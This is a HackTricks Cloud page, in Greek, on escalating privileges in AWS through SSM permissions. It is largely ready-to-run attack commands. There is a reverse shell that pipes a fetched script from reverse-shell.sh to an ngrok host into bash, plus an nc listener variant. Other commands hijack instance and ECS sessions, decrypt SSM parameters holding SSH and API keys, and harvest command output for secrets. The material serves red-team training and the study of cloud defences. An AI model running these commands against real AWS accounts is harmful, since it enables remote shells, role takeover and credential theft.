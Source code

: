 # AWS - SSM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SSM

Για περισσότερες πληροφορίες σχετικά με το SSM, ελέγξτε:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Ένας επιτιθέμενος με την άδεια **`ssm:SendCommand`** μπορεί να **εκτελεί εντολές σε instances** που εκτελούν τον Amazon SSM Agent και να **συμβιβάσει τον IAM Ρόλο** που εκτελείται μέσα σε αυτόν.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
Σε περίπτωση που χρησιμοποιείτε αυτή την τεχνική για να κλιμακώσετε τα προνόμια μέσα σε μια ήδη παραβιασμένη EC2 instance, μπορείτε απλά να καταγράψετε το rev shell τοπικά με:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Πιθανές Επιπτώσεις:** Άμεσο privesc στους ρόλους IAM EC2 που είναι συνδεδεμένοι σε εκτελούμενες περιπτώσεις με εκτελούμενους SSM Agents.

### `ssm:StartSession`

Ένας επιτιθέμενος με την άδεια **`ssm:StartSession`** μπορεί να **ξεκινήσει μια συνεδρία παρόμοια με SSH σε περιπτώσεις** που εκτελούν τον Amazon SSM Agent και **να παραβιάσει τον IAM Ρόλο** που εκτελείται μέσα σε αυτόν.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Για να ξεκινήσετε μια συνεδρία, χρειάζεστε το **SessionManagerPlugin** εγκατεστημένο: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Πιθανές Επιπτώσεις:** Άμεση εκμετάλλευση των ρόλων IAM EC2 που είναι συνδεδεμένοι σε εκτελούμενες παρουσίες με SSM Agents.

#### Εκμετάλλευση σε ECS

Όταν οι **ECS εργασίες** εκτελούνται με **`ExecuteCommand` ενεργοποιημένο**, οι χρήστες με αρκετά δικαιώματα μπορούν να χρησιμοποιήσουν `ecs execute-command` για να **εκτελέσουν μια εντολή** μέσα στο κοντέινερ.\
Σύμφωνα με [**την τεκμηρίωση**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/), αυτό γίνεται δημιουργώντας ένα ασφαλές κανάλι μεταξύ της συσκευής που χρησιμοποιείτε για να ξεκινήσετε την εντολή “_exec_” και του στοχευμένου κοντέινερ με τον SSM Session Manager. (Απαιτείται το SSM Session Manager Plugin για να λειτουργήσει)\
Επομένως, οι χρήστες με `ssm:StartSession` θα μπορούν να **αποκτήσουν πρόσβαση σε ένα shell μέσα στις ECS εργασίες** με αυτήν την επιλογή ενεργοποιημένη απλά εκτελώντας:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Πιθανές Επιπτώσεις:** Άμεση εκμετάλλευση δικαιωμάτων προς τους `ECS` IAM ρόλους που είναι συνδεδεμένοι σε εκτελούμενα καθήκοντα με ενεργοποιημένο το `ExecuteCommand`.

### `ssm:ResumeSession`

Ένας επιτιθέμενος με την άδεια **`ssm:ResumeSession`** μπορεί να επαν-**ξεκινήσει μια συνεδρία παρόμοια με SSH σε περιπτώσεις** που εκτελούν τον Amazon SSM Agent με κατάσταση συνεδρίας SSM **αποσυνδεδεμένη** και **να παραβιάσει τον IAM Ρόλο** που εκτελείται μέσα σε αυτήν.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Πιθανές Επιπτώσεις:** Άμεση εκμετάλλευση δικαιωμάτων προς τους ρόλους IAM EC2 που είναι συνδεδεμένοι σε εκτελούμενες περιπτώσεις με εκτελούμενους SSM Agents και αποσυνδεδεμένες συνεδρίες.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Ένας επιτιθέμενος με τις αναφερόμενες άδειες θα είναι σε θέση να καταγράψει τις **παραμέτρους SSM** και **να τις διαβάσει σε καθαρό κείμενο**. Σε αυτές τις παραμέτρους μπορείτε συχνά **να βρείτε ευαίσθητες πληροφορίες** όπως κλειδιά SSH ή κλειδιά API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στις παραμέτρους.

### `ssm:ListCommands`

Ένας επιτιθέμενος με αυτή την άδεια μπορεί να απαριθμήσει όλες τις **εντολές** που έχουν σταλεί και ελπίζουμε να βρει **ευαίσθητες πληροφορίες** σε αυτές.
```
aws ssm list-commands
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στις γραμμές εντολών.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Ένας επιτιθέμενος με αυτές τις άδειες μπορεί να απαριθμήσει όλες τις **εντολές** που έχουν σταλεί και να **διαβάσει την έξοδο** που έχει παραχθεί ελπίζοντας να βρει **ευαίσθητες πληροφορίες** σε αυτήν.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στην έξοδο των γραμμών εντολών.

### Codebuild

Μπορείτε επίσης να χρησιμοποιήσετε το SSM για να μπείτε σε ένα έργο codebuild που κατασκευάζεται:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
